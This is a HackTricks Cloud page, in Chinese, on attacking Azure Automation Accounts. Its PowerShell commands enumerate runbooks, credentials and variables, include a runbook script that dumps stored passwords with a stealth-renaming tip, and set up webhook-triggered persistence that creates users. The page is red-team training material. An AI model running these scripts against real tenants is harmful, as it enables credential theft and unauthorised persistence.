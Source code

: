 # Az - 自动化帐户

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## 基本信息

[来自文档：](https://learn.microsoft.com/en-us/azure/automation/overview) Azure 自动化提供基于云的自动化、操作系统更新和配置服务，支持在 Azure 和非 Azure 环境中进行一致的管理。它包括过程自动化、配置管理、更新管理、共享功能和异构特性。

这些就像 Azure 中的 "**计划任务**"，可以让您执行操作（动作或脚本）以 **管理**、检查和配置 **Azure 环境**。

### 运行帐户

当使用 **运行帐户** 时，它会创建一个带有自签名证书的 Azure AD **应用程序**，创建一个 **服务主体** 并为该帐户在 **当前订阅** 中分配 **贡献者** 角色（拥有很多权限）。\
Microsoft 建议为自动化帐户使用 **托管身份**。

{% hint style="warning" %}
这将在 2023 年 9 月 30 日 **移除并更改为托管身份。**
{% endhint %}

## 运行书和作业

**运行书** 允许您 **执行任意 PowerShell** 代码。这可能会被 **攻击者滥用** 来窃取 **附加主体** 的权限（如果有的话）。\
在 **运行书** 的 **代码** 中，您还可能找到 **敏感信息**（例如凭据）。

如果您可以 **读取** **作业**，请这样做，因为它们 **包含** 运行的 **输出**（潜在的 **敏感信息**）。

转到 `自动化帐户` --> `<选择自动化帐户>` --> `运行书/作业/混合工作者组/观察者任务/凭据/变量/证书/连接`

### 混合工作者

运行书可以在 **Azure 内的容器** 或 **混合工作者**（非 Azure 机器）中运行。\
**日志分析代理** 部署在 VM 上以将其注册为混合工作者。\
混合工作者作业在 Windows 上以 **SYSTEM** 身份运行，在 Linux 上以 **nxautomation** 帐户运行。\
每个混合工作者都注册在 **混合工作者组** 中。

因此，如果您可以选择在 **Windows 混合工作者** 中运行 **运行书**，您将以 **System** 身份在外部机器上执行 **任意命令**（很好的转移技术）。

## 破坏状态配置 (SC)

[来自文档：](https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview) Azure 自动化 **状态配置** 是一种 Azure 配置管理服务，允许您为任何云或本地数据中心中的节点编写、管理和编译 PowerShell 所需状态配置 (DSC) [配置](https://learn.microsoft.com/en-us/powershell/dsc/configurations/configurations)。该服务还导入 [DSC 资源](https://learn.microsoft.com/en-us/powershell/dsc/resources/resources)，并将配置分配给目标节点，所有这些都在云中。您可以通过在 Azure 门户中选择 **状态配置 (DSC)** 在 Azure 自动化状态配置中访问。

**敏感信息** 可能会在这些配置中找到。

### RCE

可以滥用 SC 在受管机器上运行任意脚本。

{% content-ref url="az-state-configuration-rce.md" %}
[az-state-configuration-rce.md](az-state-configuration-rce.md)
{% endcontent-ref %}

## 枚举

{% code overflow="wrap" %}
```powershell
# Check user right for automation
az extension add --upgrade -n automation
az automation account list # if it doesn't return anything the user is not a part of an Automation group

# Gets Azure Automation accounts in a resource group
Get-AzAutomationAccount

# List & get DSC configs
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration | where {$_.name -match '<name>'} | Export-AzAutomationDscConfiguration -OutputFolder . -Debug
## Automation Accounts named SecurityBaselineConfigurationWS... are there by default (not interesting)

# List & get Run books code
Get-AzAutomationAccount | Get-AzAutomationRunbook
Get-AzAutomationAccount | Get-AzAutomationRunbook | Export-AzAutomationRunbook -OutputFolder /tmp

# List credentials & variables & others
Get-AzAutomationAccount | Get-AzAutomationCredential
Get-AzAutomationAccount | Get-AzAutomationVariable
Get-AzAutomationAccount | Get-AzAutomationConnection
Get-AzAutomationAccount | Get-AzAutomationCertificate
Get-AzAutomationAccount | Get-AzAutomationSchedule
Get-AzAutomationAccount | Get-AzAutomationModule
Get-AzAutomationAccount | Get-AzAutomationPython3Package
## Exfiltrate credentials & variables and the other info loading them in a Runbook and printing them

# List hybrid workers
Get-AzAutomationHybridWorkerGroup -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME>
```
### 创建一个 Runbook

{% code overflow="wrap" %}
```powershell
# Get the role of a user on the Automation account
# Contributor or higher = Can create and execute Runbooks
Get-AzRoleAssignment -Scope /subscriptions/<ID>/resourceGroups/<RG-NAME>/providers/Microsoft.Automation/automationAccounts/<AUTOMATION-ACCOUNT>

# Create a Powershell Runbook
Import-AzAutomationRunbook -Name <RUNBOOK-NAME> -Path C:\Tools\username.ps1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Type PowerShell -Force -Verbose

# Publish the Runbook
Publish-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose

# Start the Runbook
Start-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -RunOn Workergroup1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose
```
{% endcode %}

### 通过运行簿从自动化帐户中提取凭据和变量

{% code overflow="wrap" %}
```powershell
# Change the crdentials & variables names and add as many as you need
@'
$creds = Get-AutomationPSCredential -Name <credentials_name>
$runbook_variable = Get-AutomationVariable -name <variable_name>
$runbook_variable
$creds.GetNetworkCredential().username
$creds.GetNetworkCredential().password
'@ | out-file -encoding ascii 'runbook_get_creds.ps1'

$ResourceGroupName = '<resource_group_name>'
$AutomationAccountName = '<auto_acc_name>'
$RunBookName = 'Exif-Credentials' #Change this for stealthness

# Creare Run book, publish, start, and get output
New-AzAutomationRunBook -name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Type PowerShell
Import-AzAutomationRunBook -Path 'runbook_get_creds.ps1' -Name $RunBookName -Type PowerShell -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Force
Publish-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
$start = Start-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
start-sleep 20
($start | Get-AzAutomationJob | Get-AzAutomationJobOutput).Summarynt
```
{% endcode %}

{% hint style="info" %}
您可以通过修改现有的运行手册，并从网络控制台执行相同的操作。
{% endhint %}

### 设置自动化高权限用户创建的步骤

#### 1. 初始化自动化帐户

* **所需操作：** 创建一个新的自动化帐户。
* **特定设置：** 确保启用“创建 Azure Run As 帐户”。

#### 2. 导入和设置运行手册

* **来源：** 从 [MicroBurst GitHub Repository](https://github.com/NetSPI/MicroBurst) 下载示例运行手册。
* **所需操作：**
* 将运行手册导入到自动化帐户中。
* 发布运行手册以使其可执行。
* 将网络钩子附加到运行手册，启用外部触发。

#### 3. 配置 AzureAD 模块

* **所需操作：** 将 AzureAD 模块添加到自动化帐户中。
* **附加步骤：** 确保所有 Azure 自动化模块已更新到最新版本。

#### 4. 权限分配

* **要分配的角色：**
* 用户管理员
* 订阅所有者
* **目标：** 将这些角色分配给自动化帐户以获得必要的权限。

#### 5. 注意潜在的访问丧失

* **注意：** 请注意，配置此类自动化可能会导致失去对订阅的控制。

#### 6. 触发用户创建

* 通过发送 POST 请求触发网络钩子以创建新用户。
* 使用提供的 PowerShell 脚本，确保将 `$uri` 替换为您的实际网络钩子 URL，并更新 `$AccountInfo` 以包含所需的用户名和密码。
```powershell
$uri = "<YOUR_WEBHOOK_URL>"
$AccountInfo  = @(@{RequestBody=@{Username="<DESIRED_USERNAME>";Password="<DESIRED_PASSWORD>"}})
$body = ConvertTo-Json -InputObject $AccountInfo
$response = Invoke-WebRequest -Method Post -Uri $uri -Body $body
```
## 参考文献

* [https://learn.microsoft.com/en-us/azure/automation/overview](https://learn.microsoft.com/en-us/azure/automation/overview)
* [https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview](https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview)
* [https://github.com/rootsecdev/Azure-Red-Team#runbook-automation](https://github.com/rootsecdev/Azure-Red-Team#runbook-automation)

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
